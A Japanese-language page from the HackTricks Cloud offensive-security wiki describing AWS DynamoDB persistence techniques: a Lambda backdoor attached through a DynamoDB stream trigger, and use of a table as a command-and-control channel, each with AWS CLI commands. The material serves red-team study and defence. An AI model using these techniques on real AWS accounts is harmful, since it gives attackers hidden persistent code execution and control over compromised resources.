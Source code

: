 # AWS - DynamoDB Persistence

{% hint style="success" %}
AWSハッキングを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする。
* **PRを提出してハッキングトリックを共有する** [**HackTricks**](https://github.com/carlospolop/hacktricks)や[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリに。

</details>
{% endhint %}

### DynamoDB

詳細情報はこちらを参照:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### DynamoDB Triggers with Lambda Backdoor

DynamoDBトリガーを使用して、攻撃者はテーブルに悪意のあるLambda関数を関連付けることで**ステルスバックドア**を作成できます。アイテムが追加、変更、または削除されたときにLambda関数がトリガーされ、攻撃者はAWSアカウント内で任意のコードを実行することができます。

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

永続性を維持するために、攻撃者はDynamoDBテーブル内のアイテムを作成または変更し、悪意のあるLambda関数をトリガーすることができます。これにより、攻撃者はLambda関数と直接対話することなく、AWSアカウント内でコードを実行することができます。

### DynamoDBをC2チャネルとして使用

攻撃者は、DynamoDBテーブルを**command and control (C2) チャネル**として使用し、コマンドを含むアイテムを作成し、侵害されたインスタンスやLambda関数を使用してこれらのコマンドを取得および実行することができます。
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
侵害されたインスタンスやLambda関数は、定期的にC2テーブルをチェックして新しいコマンドを取得し、それを実行し、必要に応じて結果をテーブルに報告することができます。これにより、攻撃者は侵害されたリソースに対する持続性と制御を維持することができます。

{% hint style="success" %}
AWSハッキングを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする。
* **ハッキングトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)や[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出する。

</details>
{% endhint %}
